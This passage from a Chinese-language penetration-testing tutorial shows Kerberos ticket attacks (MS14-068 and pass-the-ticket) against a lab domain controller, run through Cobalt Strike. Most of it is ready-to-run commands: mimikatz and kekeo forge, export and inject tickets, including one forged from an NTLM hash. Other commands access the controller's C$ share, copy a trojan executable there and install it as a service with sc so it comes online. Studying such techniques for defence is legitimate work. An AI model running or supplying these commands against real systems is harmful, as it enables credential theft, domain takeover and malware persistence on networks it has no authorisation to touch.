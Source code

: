 mimikatz kerberos::ptc TGT_webadmin@god.org.ccache #利用mimikatz将生成的票据导入到当前被控主机的内存中

shell klist #再次查看当前票据


5，利用生成的票据连接目标主机（域控）
shell dir \\owa2010cn-god\c$ #连接计算机名为owa2010cn-god的主机，查看C盘的目录
#owa2010cn-god的主机为域控的主机，通过信息收集可以得到主机名。

其他操作：
shell net use \\OWA2010CN-God\c$
shell copy 5555.exe \\OWA2010CN-God\c$
shell sc \\OWA2010CN-God create bindshe binpath= "c:\5555.exe"
shell sc \\OWA2010CN-God start bindshe
#首先将木马copy到目标主机（域控），利用sc命令生成服务将木马放置到服务中，随后启动服务，即可让木
马上线！
MS14-068漏洞本质上是通过一个提权的用户生成票据，再通过mimikatz将生成的票据导入到被控机的内存中。再通过调用票据连接目标机器。

#票据利用的缺点：票据具有有效期，使用票据的话必须要在有效期内！一旦票据过期需要重新生成导入。

二，利用kekeo生成票据

1，CS上传kekeo.exe到受控主机

2，CS执行命令调用上传的kekeo.exe生成票据
shell kekeo "tgt::ask /user:Administrator /domain:god.org /ntlm:ccef208c6485269c20db2cad21734fe7" "test"  #利用信息收集过程中的域控的hash值和账号生成票据。


3，查看历史票据，清除；并用CS执行命令将生成的票据导入内存
shell klist
shell klist purge
shell kekeo "kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi" "test"


4，查看当前票据
shell klist

5，利用当前票据连接目标主机（域控）
shell dir \\owa2010cn-god\c$



三，利用mimikatz生成票据

1，CS输入命令调用mimkatz功能，将和本机连接过的所有主机的票据记录全部导出

mimikatz sekurlsa::tickets /export

2，CS"文件浏览"界面，选择一个票据复制

3，先将当前连接的票据清除，接着使用命令将复制的票据导入
shell klist purge
shell klist
mimikatz kerberos::ptt C:\Users\webadmin\Desktop\[0;3e7]-0-0-40a40000-webadmin@ldap-OWA2010CN-God.god.org.kirbi #mimikatz kerberos::ptt后面接上刚刚复制的票据

4，查看票据，利用票据连接

shell klist
shell dir \\owa2010cn-god\c$
